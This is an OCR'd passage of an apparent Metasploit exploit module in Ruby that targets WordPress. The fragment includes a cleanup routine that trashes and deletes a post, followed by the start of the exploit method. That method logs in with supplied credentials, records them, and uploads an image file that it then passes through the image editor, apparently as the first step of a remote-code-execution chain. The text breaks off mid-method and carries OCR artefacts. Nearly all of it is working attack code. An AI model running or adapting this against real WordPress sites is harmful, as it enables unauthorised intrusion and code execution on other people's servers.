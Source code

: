   fail_with(Failure::NotFound, 'Unable to retrieve response') unless res &amp;&amp; res.code == 302
  res = send_request_cgi(
    'method'    =&gt; 'GET',
    'uri'       =&gt; uri1,
    'cookie'    =&gt; cookie,
    'vars_get'  =&gt; {
      'post_status' =&gt; "trash",
      'post_type'   =&gt; 'post',
      '_wpnonce' =&gt; post_nonce
    }
  )

  if res &amp;&amp; res.code == 200 &amp;&amp; res.body &amp;&amp; !res.body.empty?
    nonce = res.body.scan(/post=#{post_id}&amp;action=delete&amp;_wpnonce=(\w+)/).flatten.first
    fail_with(Failure::NotFound, 'Unable to retrieve nonce') unless nonce

    send_request_cgi(
      'method'    =&gt; 'GET',
      'uri'       =&gt; uri2,
      'cookie'    =&gt; cookie,
      'vars_get'  =&gt; {
        'post'     =&gt; post_id,
        'action'   =&gt; 'delete',
        '_wpnonce' =&gt; nonce
      }
    )
  end
end 
```

end

def exploit

fail_with(Failure::NotFound, ‘The target does not appear to be using WordPress’) unless wordpress_and_online?

```
print_status("Authenticating with WordPress using #{username}:#{password}...")
cookie = wordpress_login(username, password)
fail_with(Failure::NoAccess, 'Failed to authenticate with WordPress') if cookie.nil?
print_good("Authenticated with WordPress")
store_valid_credential(user: username, private: password, proof: cookie)

print_status("Preparing payload...")
@current_theme = get_current_theme
wp_nonce = get_wpnonce(cookie)
@current_date = Time.now.strftime("%Y/%m/")

img_name = Rex::Text.rand_text_alpha(10)
@filename1, image_id, update_nonce = upload_file(img_name, wp_nonce, cookie)
ajax_nonce = get_ajaxnonce(cookie)

@filename1 = image_editor(img_name, ajax_nonce, image_id, cookie)
wpnonce2 = get_wpnonce2(image_id, cookie)
